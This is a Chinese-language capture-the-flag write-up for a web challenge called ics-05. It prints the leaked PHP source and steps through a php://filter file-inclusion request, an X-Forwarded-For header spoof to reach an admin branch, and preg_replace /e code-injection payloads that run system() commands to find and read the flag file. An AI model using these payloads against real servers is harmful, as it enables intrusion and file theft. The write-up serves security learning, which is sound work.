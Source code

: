xman_web_ics05

扫描网址得

>[19:56:55] 200 -    5KB - /index.html                                           
>
>[19:56:55] 200 -    2KB - /index.php 
>
>[19:56:55] 200 -    2KB - /index.php/login/

访问http://111.198.29.45:39337/index.php/login后点击网页上的文字后，url变成

`http://111.198.29.45:39337/index.php/login?page=index`

于是猜测可以php://filter

> http://111.198.29.45:39337/index.php/login?page=php://filter/read=convert.base64-encode/resource=index.php

得到index.php的内容,base64解码后为

```php
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>è®¾å¤ç»´æ¤ä¸­å¿</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">äºå¹³å°è®¾å¤ç»´æ¤ä¸­å¿</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>è®¾å¤åè¡¨</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- è¿éç checked çç¶æåªæ¯æ¼ç¤º -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="å¼|å³" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: 'è®¾å¤å', templet: '#nameTpl' },
                     { field: 'area', title: 'åºå' },
                     { field: 'status', title: 'ç»´æ¤ç¶æ', minWidth: 120, sort: true },
                     { field: 'check', title: 'è®¾å¤å¼å³', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
    <script>
    layui.use('element', function() {
        var element = layui.element; //å¯¼èªçhoverææãäºçº§èåç­åè½ï¼éè¦ä¾èµelementæ¨¡å
        //çå¬å¯¼èªç¹å»
        element.on('nav(demo)', function(elem) {
            //console.log(elem)
            layer.msg(elem.text());
        });
    });
    </script>

<?php

$page = $_GET[page];

if (isset($page)) {



if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead">
                <?php

                if (strpos($page, 'input') > 0) {
                    die();
                }

                if (strpos($page, 'ta:text') > 0) {
                    die();
                }

                if (strpos($page, 'text') > 0) {
                    die();
                }

                if ($page === 'index.php') {
                    die('Ok');
                }
                    include($page);
                    die();
                ?>
        </p>
        <br /><br /><br /><br />

<?php
}}


//æ¹ä¾¿çå®ç°è¾å¥è¾åºçåè½,æ­£å¨å¼åä¸­çåè½ï¼åªè½åé¨äººåæµè¯

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
?>

</body>

</html>

```

看见最后有`$_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1'`的判断条件才会调用`preg_replace`函数

**!! preg_replace()函数有漏洞** 见https://www.jb51.net/article/145649.htm

>preg_replace( pattern , replacement , subject ) : 当pattern指明/e标志时 ,preg_replace()会将replacement部分的代码当作PHP代码执行 (简单的说就是将replacement参数值放入eval()结构中)


所以在访问之前先给请求头加上 X-Forwarded-For：127.0.0.1

（具体操作可以是先burpsuite抓包，加上后forward就可以显示在浏览器中）

>GET /index.php HTTP/1.1
>Host: 111.198.29.45:39337
>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
>Referer: http://111.198.29.45:39337/
>Connection: close
>Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
>Upgrade-Insecure-Requests: 1
>Cache-Control: max-age=0
>X-Forwarded-For: 127.0.0.1

界面就多了一行`Welcome My Admin !` 

随后利用preg_replace的漏洞对系统里flag相关文件进行查找

> 111.198.29.45:39337/index.php?pat=/test/e&rep=system('find / -iname flag')&sub=test

得到flag文件的路径

>Welcome My Admin ! 
>/var/www/html/s3chahahaDir/flag

最后

> 111.198.29.45:39337/index.php?pat=/test/e&rep=system('cat/var/www/html/s3chahahaDir/flag/flag.php')&sub=test

>Welcome My Admin ! 
>
><?php $flag = 'cyberpeace{d5affd241d93965bf3d575c7de26c14d}';?>

